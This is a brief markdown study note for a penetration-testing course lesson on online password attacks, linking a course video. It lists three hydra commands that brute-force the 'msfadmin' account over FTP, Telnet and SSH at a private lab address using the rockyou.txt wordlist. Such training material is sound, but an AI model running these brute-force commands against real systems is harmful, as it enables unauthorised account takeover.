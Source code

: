 # 05_Run an Online Password Attack on Linux

[Run an Online Password Attack on Linux 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=46ab63c7-968b-47c0-9752-3d4c93fbeeee&finalAssessment=false)

**Application**

- hydra
  - hydra -l msfadmin -P rockyou.txt ftp://192.168.1.8
  - hydra -l msfadmin -P rockyou.txt telnet://192.168.1.8
  - hydra -l msfadmin -P rockyou.txt ssh://192.168.1.8
